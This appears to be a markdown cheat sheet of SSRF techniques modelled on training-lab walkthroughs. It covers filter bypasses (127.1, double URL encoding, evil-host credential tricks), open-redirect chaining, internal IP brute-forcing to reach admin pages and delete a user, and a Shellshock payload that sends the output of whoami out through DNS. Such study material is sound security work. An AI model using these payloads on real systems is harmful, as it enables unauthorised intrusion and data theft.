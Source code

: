 # SERVER-SIDE REQUEST FORGERY
SSRF is a web security vulnerability that allows an attacke to induce the server-side application to make requests to an unintended location

## Summary
* [Finding hidden attack surface](#finding-hidden-attack-surface-for-ssrf-vulnerability)
* [Bypassing common SSRF defenses](#bypassing-common-ssrf-defenses)
	* [Bypassing blacklist-based input filters](#bypassing-blacklist-based-input-filters)
	* [Bypassing whitelist-based input filters](#bypassing-whitelist-based-input-filters)
	* [Bypassing SSRF filters via open redirect](#bypassing-ssrf-filters-via-open-redirection)
	* [Basic SSRF againts the local server](#basic-ssrf-againts-the-local-server)
	* [Basic SSRF againts another back-end system](#basic-ssrf-againts-another-back-end-system)
* [Bypassing blind SSRF filters](#bypassing-blind-ssrf-filters)
	* [Blind SSRF with out-of-band detection](#blind-ssrf-with-out-of-band-detection)
	* [Blind SSRF with Shellshock exploitation](#blind-ssrf-with-shellshock-exploitation)
	* 
### Finding hidden attack surface for SSRF vulnerability
```
> partial URLs in requests
> URLs within data formats
> SSRF via the referer header
```

## Bypassing common SSRF defenses
### Bypassing blacklist-based input filters
```
> 127.1
> registering own domain name that resolves to 127.0.0.1
> Obfuscating blocked strings using URL encoding or case variation
```
See below examples:
```
> assume that an application lets the users to check for the item's stock
> Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
> Change the URL in the stockApi parameter to http://127.0.0.1/ and observe that the request is blocked.
> Bypass the block by changing the URL to: http://127.1/
> Change the URL to http://127.1/admin and observe that the URL is blocked again.
> Obfuscate the "a" by double-URL encoding it to %2561 to access the admin interface and delete the target user.
```

### Bypassing whitelist-based input filters
```
> embed credentials in a URL before the hostname
	# http://expected-host@evil-host
> indicate a URL fragment
	# http://evil-host#expected-host
> leverage the DNS naming hierarchy
	# http://expected-host.evil-host
> URL-encode characters to confuse the URL-parsing code
```
See below examples:
```
> assume that an application lets the users to check for the item's stock
> Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
> Change the URL in the stockApi parameter to http://127.0.0.1/ and observe that the application is parsing the URL, extracting the hostname, and validating it against a whitelist.
> Change the URL to http://username@stock.weliketoshop.net/ and observe that this is accepted, indicating that the URL parser supports embedded credentials.
> Append a # to the username and observe that the URL is now rejected.
> Double-URL encode the # to %2523 and observe the extremely suspicious "Internal Server Error" response, indicating that the server may have attempted to connect to "username".
> To access the admin interface and delete the target user, change the URL to: http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

### Bypassing SSRF filters via open redirection
```
> assume that an application lets the users to check for the item's stock
> Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
> try tampering with the stockApi parameter and observe that it is not possible to make the server request directly to a different host
> in the application, click "next product" and observe that the path parameter is placed into the Location header of a redirection response, resulting in an open redirection
> create a URL that exploits the open redirection vulnerability and redirects to the admin interface in the back-end system
> stockApi=/product/nextProduct?currentProductId=19&path=http://192.168.0.12:8080/admin
> observe that the stock checker follows the redirection and shows you the admin page
```

### Basic SSRF againts the local server
```
> assume that an application lets the users to check for the item's stock
> when a user views the stock status for an item, their browser makes a request like this
> stockAPI=http://stock.com/product/stock/check?productId=1&storeId=22
> an attacker can exploit this vulnerability by simply changing the stockAPI URL into their intended URL for example http://localhost/admin
> in normal situation, the attacker could just visit the /admin URL directly but normally, the /admin page is only accessible to authenticated users
> however if the request to the /admin page URL comes from the local machine itself, the normal access controls are bypassed
```

### Basic SSRF againts another back-end system
```
> assume that an application lets the users to check for the item's stock
> suppose there is an administrative interface at the back-end URL
> http://192.x.x.x/admin
> in normal situation, an attacker would not know what the back-end URL is, so they will have to bruteforce each octets
> submit a request to check for the item's stock and send the request to Burp Intruder to brute force the back-end URL
> change the stockAPI parameter value
> http://192.168.0.1:8080/admin
> clear the payload positions and add a new one on the final octet of the IP address
> change the payload type to Numbers and enter 1,255 and 1 in the "From" and "To" and "Step" boxes respectively and start the attack.
> you should see a single entry with a status of 200, showing an admin interface. 
> right click on this request, send it to Burp Repeater, and change the URL in the stockApi to: http://192.168.0.173/admin/delete?username=carlos
```

## BYPASSING BLIND SSRF FILTERS
### Blind SSRF with out-of-band detection
```
> assume a website uses analytics software which fetches the URL specified in the Referer header
> in Burp Suite, go the the Burp menu and launch the Burp Collaborator client
> click "copy to clipboard" to copy a unique Burp Collaborator payload
> visit a product and send the request to Burp Repeater
> change the Referer header to use the generated Burp Collaborator domain in place of the original domain then send the request
> in Burp Collaborator client window, click "Poll now" and you should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
```

### Blind SSRF with Shellshock exploitation
```
> In Burp Suite Professional, install the "Collaborator Everywhere" extension from the BApp Store.
> Add the domain of the lab to Burp Suite's target scope, so that Collaborator Everywhere will target it.
> Browse the site.
> Observe that when you load a product page, it triggers an HTTP interaction with Burp Collaborator, via the Referer header.
> Observe that the HTTP interaction contains your User-Agent string within the HTTP request.
> Send the request for the product page to Burp Intruder.
> Use Burp Collaborator client to generate a unique Burp Collaborator payload, and place this into the following Shellshock payload:
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
> Replace the User-Agent string in the Burp Intruder request with the Shellshock payload containing your Collaborator domain.
> Click "Clear §", change the Referer header to http://192.168.0.1:8080 then highlight the final octet of the IP address (1), click "Add §".
> Switch to the Payloads tab, change the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively.
> Click "Start attack".
> When the attack is finished, go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously. You should see a DNS interaction that was initiated by the back-end system that was hit by the successful blind SSRF attack. The name of the OS user should appear within the DNS subdomain.
```
